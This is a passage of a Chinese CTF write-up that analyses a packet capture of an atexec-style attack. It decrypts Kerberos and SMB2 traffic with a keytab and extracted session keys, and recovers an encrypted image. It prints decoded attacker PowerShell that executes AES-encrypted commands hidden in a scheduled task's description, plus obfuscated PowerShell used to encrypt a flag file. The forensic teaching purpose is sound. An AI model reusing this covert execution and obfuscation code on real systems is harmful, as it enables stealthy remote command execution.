EwAZQBuAGcAdABoACkACgAgACAAIAAgACQAYwBvAG0AYgBpAG4AZQBkAEQAYQB0AGEAIAA9ACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4ASQBWACAAKwAgACQAZQBuAGMAcgB5AHAAdABlAGQARABhAHQAYQAKACAAIAAgACAAcgBlAHQAdQByAG4AIABDAG8AbgB2AGUAcgB0AFQAbwAtAEIAYQBzAGUANgA0ACAAJABjAG8AbQBiAGkAbgBlAGQARABhAHQAYQAKAH0ACgAKAGYAdQBuAGMAdABpAG8AbgAgAEQAZQBjAHIAeQBwAHQALQBEAGEAdABhACgAJABrAGUAeQAsACAAJABlAG4AYwByAHkAcAB0AGUAZABEAGEAdABhACkAIAB7AAoAIAAgACAAIAAkAGEAZQBzAE0AYQBuAGEAZwBlAGQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4AUwBlAGMAdQByAGkAdAB5AC4AQwByAHkAcAB0AG8AZwByAGEAcABoAHkALgBBAGUAcwBNAGEAbgBhAGcAZQBkAAoAIAAgACAAIAAkAGEAZQBzAE0AYQBuAGEAZwBlAGQALgBNAG8AZABlACAAPQAgAFsAUwB5AHMAdABlAG0ALgBTAGUAYwB1AHIAaQB0AHkALgBDAHIAeQBwAHQAbwBnAHIAYQBwAGgAeQAuAEMAaQBwAGgAZQByAE0AbwBkAGUAXQA6ADoAQwBCAEMACgAgACAAIAAgACQAYQBlAHMATQBhAG4AYQBnAGUAZAAuAFAAYQBkAGQAaQBuAGcAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAFMAZQBjAHUAcgBpAHQAeQAuAEMAcgB5AHAAdABvAGcAcgBhAHAAaAB5AC4AUABhAGQAZABpAG4AZwBNAG8AZABlAF0AOgA6AFAASwBDAFMANwAKACAAIAAgACAAJABjAG8AbQBiAGkAbgBlAGQARABhAHQAYQAgAD0AIABDAG8AbgB2AGUAcgB0AEYAcgBvAG0ALQBCAGEAcwBlADYANAAgACQAZQBuAGMAcgB5AHAAdABlAGQARABhAHQAYQAKACAAIAAgACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4ASQBWACAAPQAgACQAYwBvAG0AYgBpAG4AZQBkAEQAYQB0AGEAWwAwAC4ALgAxADUAXQAKACAAIAAgACAAJABhAGUAcwBNAGEAbgBhAGcAZQBkAC4ASwBlAHkAIAA9ACAAJABrAGUAeQAKACAAIAAgACAAJABkAGUAYwByAHkAcAB0AG8AcgAgAD0AIAAkAGEAZQBzAE0AYQBuAGEAZwBlAGQALgBDAHIAZQBhAHQAZQBEAGUAYwByAHkAcAB0AG8AcgAoACkACgAgACAAIAAgACQAZQBuAGMAcgB5AHAAdABlAGQARABhAHQAYQBCAHkAdABlAHMAIAA9ACAAJABjAG8AbQBiAGkAbgBlAGQARABhAHQAYQBbADEANgAuAC4AJABjAG8AbQBiAGkAbgBlAGQARABhAHQAYQAuAEwAZQBuAGcAdABoAF0ACgAgACAAIAAgACQAZABlAGMAcgB5AHAAdABlAGQARABhAHQAYQBCAHkAdABlAHMAIAA9ACAAJABkAGUAYwByAHkAcAB0AG8AcgAuAFQAcgBhAG4AcwBmAG8AcgBtAEYAaQBuAGEAbABCAGwAbwBjAGsAKAAkAGUAbgBjAHIAeQBwAHQAZQBkAEQAYQB0AGEAQgB5AHQAZQBzACwAIAAwACwAIAAkAGUAbgBjAHIAeQBwAHQAZQBkAEQAYQB0AGEAQgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQAKACAAIAAgACAAcgBlAHQAdQByAG4AIABbAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4AC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGQAZQBjAHIAeQBwAHQAZQBkAEQAYQB0AGEAQgB5AHQAZQBzACkACgB9AAoACgAkAHMAYwBoAGUAZAB1AGwAZQByACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAEMAbwBtAE8AYgBqAGUAYwB0ACAAUwBjAGgAZQBkAHUAbABlAC4AUwBlAHIAdgBpAGMAZQAKACQAcwBjAGgAZQBkAHUAbABlAHIALgBDAG8AbgBuAGUAYwB0ACgAKQAKAHQAcgB5ACAAewAKACAAIAAgACAAJABmAG8AbABkAGUAcgAgAD0AIAAkAHMAYwBoAGUAZAB1AGwAZQByAC4ARwBlAHQARgBvAGwAZABlAHIAKAAkAHQAYQBzAGsAUABhAHQAaAApAAoAIAAgACAAIAAkAHQAYQBzAGsAIAA9ACAAJABmAG8AbABkAGUAcgAuAEcAZQB0AFQAYQBzAGsAKAAiAEoAVQBFAEQAVABuAGcATAAiACkACgAgACAAIAAgACQAZABlAGYAaQBuAGkAdABpAG8AbgAgAD0AIAAkAHQAYQBzAGsALgBEAGUAZgBpAG4AaQB0AGkAbwBuAAoAIAAgACAAIAAkAGQAZQBzAGMAcgBpAHAAdABpAG8AbgAgAD0AIAAkAGQAZQBmAGkAbgBpAHQAaQBvAG4ALgBSAGUAZwBpAHMAdAByAGEAdABpAG8AbgBJAG4AZgBvAC4ARABlAHMAYwByAGkAcAB0AGkAbwBuAAoACgAgACAAIAAgACQAZABlAGMAcgB5AHAAdABlAGQARABlAHMAYwByAGkAcAB0AGkAbwBuACAAPQAgAEQAZQBjAHIAeQBwAHQALQBEAGEAdABhACAAJABlAG4AYwByAHkAcAB0AGkAbwBuAEsAZQB5ACAAJABkAGUAcwBjAHIAaQBwAHQAaQBvAG4ACgAgACAAIAAgACQAZQB4AGUAYwB1AHQAaQBvAG4AUgBlAHMAdQBsAHQAIAA9ACAAaQBlAHgAIAAkAGQAZQBjAHIAeQBwAHQAZQBkAEQAZQBzAGMAcgBpAHAAdABpAG8AbgAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnAAoAIAAgACAAIAAkAGUAbgBjAHIAeQBwAHQAZQBkAFIAZQBzAHUAbAB0ACAAPQAgAEUAbgBjAHIAeQBwAHQALQBEAGEAdABhACAAJABlAG4AYwByAHkAcAB0AGkAbwBuAEsAZQB5ACAAJABlAHgAZQBjAHUAdABpAG8AbgBSAGUAcwB1AGwAdAAKAAoAIAAgACAAIAAkAGQAZQBmAGkAbgBpAHQAaQBvAG4ALgBSAGUAZwBpAHMAdAByAGEAdABpAG8AbgBJAG4AZgBvAC4ARABlAHMAYwByAGkAcAB0AGkAbwBuACAAPQAgACQAZQBuAGMAcgB5AHAAdABlAGQAUgBlAHMAdQBsAHQACgAgACAAIAAgACQAdQBzAGUAcgAgAD0AIAAkAHQAYQBzAGsALgBQAHIAaQBuAGMAaQBwAGEAbAAuAFUAcwBlAHIASQBkAAoAIAAgACAAIAAkAGYAbwBsAGQAZQByAC4AUgBlAGcAaQBzAHQAZQByAFQAYQBzAGsARABlAGYAaQBuAGkAdABpAG8AbgAoACQAdABhAHMAawAuAE4AYQBtAGUALAAgACQAZABlAGYAaQBuAGkAdABpAG8AbgAsACAANgAsACAAJAB1AHMAZQByACwAIAAkAG4AdQBsAGwALAAgACQAdABhAHMAawAuAEQAZQBmAGkAbgBpAHQAaQBvAG4ALgBQAHIAaQBuAGMAaQBwAGEAbAAuAEwAbwBnAG8AbgBUAHkAcABlACkACgB9AGMAYQB0AGMAaAAgAHsACgAgACAAIAAgAFcAcgBpAHQAZQAtAEUAcgByAG8AcgAgACIARgBhAGkAbABlAGQALgAuACIACgB9AAoAZgBpAG4AYQBsAGwAeQAgAHsACgAgACAAIAAgAFsAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMALgBNAGEAcgBzAGgAYQBsAF0AOgA6AFIAZQBsAGUAYQBzAGUAQwBvAG0ATwBiAGoAZQBjAHQAKAAkAHMAYwBoAGUAZAB1AGwAZQByACkAIAB8ACAATwB1AHQALQBOAHUAbABsAAoAfQAKAFsARQBuAHYAaQByAG8AbgBtAGUAbgB0AF0AOgA6AEUAeABpAHQAKAAwACkA</Arguments>
    </Exec>
  </Actions>
</Task>
```

解码后的 powershell 代码如下:

可以发现这次的密钥换成了：`FgBBwvgPsd1GCyNr/+o7mw==`

```python
$taskPath = "\"
$encryptionKey = [System.Convert]::FromBase64String("FgBBwvgPsd1GCyNr/+o7mw==")
function ConvertTo-Base64($byteArray) {
    [System.Convert]::ToBase64String($byteArray)
}

function ConvertFrom-Base64($base64String) {
    [System.Convert]::FromBase64String($base64String)
}

function Encrypt-Data($key, $data) {
    $aesManaged = New-Object System.Security.Cryptography.AesManaged
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aesManaged.Key = $key
    $aesManaged.GenerateIV()
    $encryptor = $aesManaged.CreateEncryptor()
    $utf8Bytes = [System.Text.Encoding]::UTF8.GetBytes($data)
    $encryptedData = $encryptor.TransformFinalBlock($utf8Bytes, 0, $utf8Bytes.Length)
    $combinedData = $aesManaged.IV + $encryptedData
    return ConvertTo-Base64 $combinedData
}

function Decrypt-Data($key, $encryptedData) {
    $aesManaged = New-Object System.Security.Cryptography.AesManaged
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $combinedData = ConvertFrom-Base64 $encryptedData
    $aesManaged.IV = $combinedData[0..15]
    $aesManaged.Key = $key
    $decryptor = $aesManaged.CreateDecryptor()
    $encryptedDataBytes = $combinedData[16..$combinedData.Length]
    $decryptedDataBytes = $decryptor.TransformFinalBlock($encryptedDataBytes, 0, $encryptedDataBytes.Length)
    return [System.Text.Encoding]::UTF8.GetString($decryptedDataBytes)
}

$scheduler = New-Object -ComObject Schedule.Service
$scheduler.Connect()
try {
    $folder = $scheduler.GetFolder($taskPath)
    $task = $folder.GetTask("JUEDTngL")
    $definition = $task.Definition
    $description = $definition.RegistrationInfo.Description

    $decryptedDescription = Decrypt-Data $encryptionKey $description
    $executionResult = iex $decryptedDescription | Out-String
    $encryptedResult = Encrypt-Data $encryptionKey $executionResult

    $definition.RegistrationInfo.Description = $encryptedResult
    $user = $task.Principal.UserId
    $folder.RegisterTaskDefinition($task.Name, $definition, 6, $user, $null, $task.Definition.Principal.LogonType)
}catch {
    Write-Error "Failed.."
}
finally {
    [System.Runtime.InteropServices.Marshal]::ReleaseComObject($scheduler) | Out-Null
}
[Environment]::Exit(0)
```

解密后的响应数据是空白的，因此这次请求和响应大概的意思就是去执行我们之前保存到本地的那个ps1程序

其实就是对本地的那个 `flag.jpg` 文件进行了加密

到此，NTLMv2认证的环节就结束了，接下来进入Kerberos认证的环节

### Kerberos 认证部分

首先我们过滤一下 KRB5 的流量，然后关注 `AS-REP` 中的用户名和域名



发现和之前 NTLMv2 爆破用的用户名是同一个，因此猜测密码也是一样的

所以我们这里可以借助[这个工具](https://github.com/TheRealAdamBurford/Create-KeyTab)生成一下 keytab，就是这里要注意用户名的姓和名都需要首字母大写



然后到 wireshark 的 KRB5 协议中导入我们构造好的 keytab 文件

这里要记得勾选上 `Try to decrypt Kerberos blobs` 这个选项




应用后点击确定，在wireshark中发现有部分字段的高亮从黄色变成蓝色就说明我们构造成功了



然后这个时候我们就可以去KRB5流量的`TGS-REP`中找解密后续SMB2流量要用的 Session Key 了




在解密 SMB2 流量时，Session Key 和 Session ID是一一对应的

而对应的 Session ID 可以到 SMB2 流量中的 Seesion Setup Response 消息寻找

但是仔细观察就会发现这里的 sessionkey 是32字节的

导致后续我们在尝试解密 SMB2 时，导入 sessionid 和 seesionkey 会报错

并且 wireshark 下方红色小字提示了我们 SessionKey 最多是 16 字节



赛后和 `@Tr0jAn` 师傅交流后知道了，这里的 SessionKey 只需要取前16字节即可

猜测这个和SMB2加密的底层原理或者特性有关，这里就不赘述了

tshark导出 SeesionID 的命令如下

```bash
tshark -r ez-atexec-latest.pcapng -T fields -Y "smb2.session_flags" -e smb2.sesid

0x0000240000000055
0x0000240000000059
0x000024000000005d
0x0000240000000061
0x0000240000000065
```

然后我们手动到KRB5流量的`TGS-REP`中找对应的 Session Key 即可

就是这里要注意，SMB2的SessionKey默认是以小端序存储的，而我们解密的时候需要填入的格式是大端序

这里可以写个脚本处理，也可以直接用CyberChef转换一下



最后提取和转换后得到的SessionID和SessionKey如下：

```
5500000000240000 f9513228b0f531f884658de859e83518
5900000000240000 1da45236f3398e29f901863bea668c6a
5d00000000240000 3ccd7042c567db16307d11d94cedd303
6100000000240000 0f1bb014c8e86996c38a495043dffa29
6500000000240000 2b5c2733c37caa908e190a3f63721fe0
```

然后我们在 wireshark 中填入即可正确解密 SMB2 流量







然后我们从传输的文件中导出 enc.jpg 即可



导出 enc.jpg 这个密文后，我们就需要分析之前得到的那个加密代码了

```powershell
$INPutFiLE = ([stRinG]::fOrMat(([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('ezB9ezF9ezJ9ezN9ezR9'))),$($k6925=167;$b=[byte[]](0xe4,0x9d,0xfb,0xd4,0xcf);-join($b|%{[char]($_-bxor$k6925)})),"$([char]0x61)$([char]0x72)$([char]0x65)$([char]0x73)",([System.Text.Encoding]::UTF8.GetString([byte[]](0x5C,0x66))),('{0}{1}' -f 'l','ag'),('.j'+'pg')))

$OUtPutfile = ([striNG]::foRmaT($($k8602=226;$b=[byte[]](0x99,0xd2,0x9f,0x99,0xd3,0x9f,0x99,0xd0,0x9f,0x99,0xd1,0x9f,0x99,0xd6,0x9f,0x99,0xd7,0x9f,0x99,0xd4,0x9f);-join($b|%{[char]($_-bxor$k8602)})),'C',$($k3091='3fo)*';$b=[byte[]](0x09);$kb=[System.Text.Encoding]::UTF8.GetBytes($k3091);-join(0..($b.Length-1)|%{[char]($b[$_]-bxor$kb[$_%$kb.Length])})),$($k9422='VBVMX';$b=[byte[]](0x0A,0x31);$kb=[System.Text.Encoding]::UTF8.GetBytes($k9422);-join(0..($b.Length-1)|%{[char]($b[$_]-bxor$kb[$_%$kb.Length])})),$($k5269='7v2Bv';$b=[byte[]](0x5F,0x17,0x40);$kb=[System.Text.Encoding]::UTF8.GetBytes($k5269);-join(0..($b.Length-1)|%{[char]($b[$_]-bxor$kb[$_%$kb.Length])})),('{0}{1}{2}' -f 'e','s','\e'),([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('bmMuanA='))),('{0}' -f 'g')))

$C = @{
